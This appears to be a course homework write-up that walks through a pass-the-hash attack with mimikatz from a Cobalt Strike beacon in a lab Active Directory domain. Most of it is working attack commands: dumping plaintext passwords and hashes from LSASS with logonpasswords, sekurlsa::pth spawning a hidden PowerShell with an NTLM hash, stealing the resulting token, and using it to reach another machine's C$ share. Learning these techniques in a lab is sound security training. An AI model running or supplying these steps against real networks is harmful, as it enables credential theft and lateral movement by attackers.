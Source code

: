 ## Homework #6
***
pass-the-hash (PTH) with mimikatz in your AD env by following this:
https://blog.cobaltstrike.com/2015/05/21/how-to-pass-the-hash-with-mimikatz/

I will use dump the plain text passwords from LSASS to get my domain account hashes. This is because I am going to PTH to another domain computer with a different local user/password. For local user accounts you can use `hashdump`. You can view the captured credentials under View -> Credentials. 
```
beacon> logonpasswords
```

Create a trust relationship from a username and password hash.
```
beacon> mimikatz sekurlsa::pth /user:Administrator /domain:WIND.local /ntlm:<ntlmhashhere> /run:"powershell -w hidden"
```

Steal the token from the PID created by mimikatz. 
```
beacon> steal_token <PID#here>
```

Test token on remote machine. 
```
beacon> shell dir \\CFC-Win10-02\C$
```

### References
Need to have administrator beacon. Troubleshooting article here. 
https://blog.cobaltstrike.com/2015/12/16/windows-access-tokens-and-alternate-credentials/

Kandy Walkthrough of PTH
https://www.youtube.com/watch?v=GmrPHD7k7W0&t=424s